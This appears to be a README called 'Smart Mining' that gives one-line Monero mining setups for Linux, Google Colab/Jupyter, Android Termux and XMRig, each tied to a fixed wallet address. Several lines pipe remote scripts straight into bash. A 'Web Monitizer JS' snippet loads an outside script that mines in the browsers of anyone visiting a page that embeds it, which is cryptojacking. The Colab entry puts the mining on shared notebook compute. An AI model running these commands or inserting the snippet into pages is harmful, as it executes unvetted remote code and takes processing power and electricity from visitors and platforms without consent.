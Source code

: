 # `Smart Mining`
## `Linux`
```
curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un
```
## `Google Colab` Or `Jupyter Notebook`
```
! curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un
```
## `Android "Termux"`
```
bash <(curl -fsSL git.io/aminer) -o gulf.moneroocean.stream:10128 -u 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un -p x
```
## `XMRIG`
```
./xmrig --opencl --cuda -o gulf.moneroocean.stream:10128 -u 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un -p x -k
```
## `Web Monitizer JS`
```
<script src="https://alixjs.vercel.app/connect.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un";
    var workerId = "AliX-SM";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
# `For You`  
- If You Want To Use It For Your Purpose  
- Simply Replace `8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un` With Your Monero Adress Everywhere  
- Then Use It According To Platform  
- Then Go To https://moneroocean.stream/ And Paste Your Wallet Adress For Tracking

